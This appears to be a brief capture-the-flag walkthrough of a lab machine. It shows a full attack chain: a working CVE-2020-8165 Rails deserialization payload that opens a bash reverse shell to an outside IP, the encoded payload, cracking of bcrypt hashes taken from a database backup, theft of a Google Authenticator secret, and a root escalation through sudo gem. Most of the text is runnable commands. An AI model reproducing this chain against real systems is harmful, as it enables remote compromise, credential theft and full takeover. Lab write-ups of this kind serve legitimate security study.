 ![[Pasted image 20250222180609.png]]
we found vulnerable verison on rails
we use this script to get rce https://github.com/masahiro331/CVE-2020-8165?tab=readme-ov-file

apt install rails
rails new exploit
cd exploit
rails console

code='`/bin/bash -c "bash -i &>/dev/tcp/10.10.14.11/1234 0>&1"`'
erb=ERB.allocate
erb.instance_variable_set:@src, code
erb.instance_variable_set:@filename, "1"
erb.instance_variable_set:@lineno, 1
payload=Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb,:result)
require'uri'
puts URI.encode_www_form(payload:payload)

we get that payload=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%3E%60%2Fbin%2Fbash+-c+%22bash+-i+%26%3E%2Fdev%2Ftcp%2F10.10.14.11%2F1234+0%3E%261%22%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T

then we found vulnerable parametr
![[Pasted image 20250222215855.png]]
![[Pasted image 20250222215911.png]]
that parametr has in edit profile page
![[Pasted image 20250222222111.png]]
we get shell
![[Pasted image 20250222222137.png]]

in backups we found new hash in /var/backups/dump_2020-08-27.sql
COPY public.users (id, username, email, created_at, updated_at, password_digest) FROM stdin;
2       jennifer        jennifer@mail.htb       2020-08-27 05:44:28.551735      2020-08-27 05:44:28.551735 $2a$12$sZac9R2VSQYjOcBTTUYy6.Zd.5I02OnmkKnD3zA6MqMrzLKz0jeDO
1       bill    bill@mail.htb   2020-08-26 10:24:03.878232      2020-08-27 09:18:11.636483      $2a$12$QqfetsTSBVxMXpnTR.JfUeJXcJRHv5D5HImL0EHI7OzVomCrqlRxW

and we can crack it for bill user
result:spongebob

this verification code we found it in root dir user bill in file .google_authenticator:
2UQI3R52WFCLE6JTLDCSJYMJH4
we add this code in google authenticator app 
then we list sudo privileges:
![[Pasted image 20250222225450.png]]
https://gtfobins.github.io/gtfobins/gem/
sudo /usr/bin/gem open -e "/bin/sh -c /bin/sh" rdoc
we get root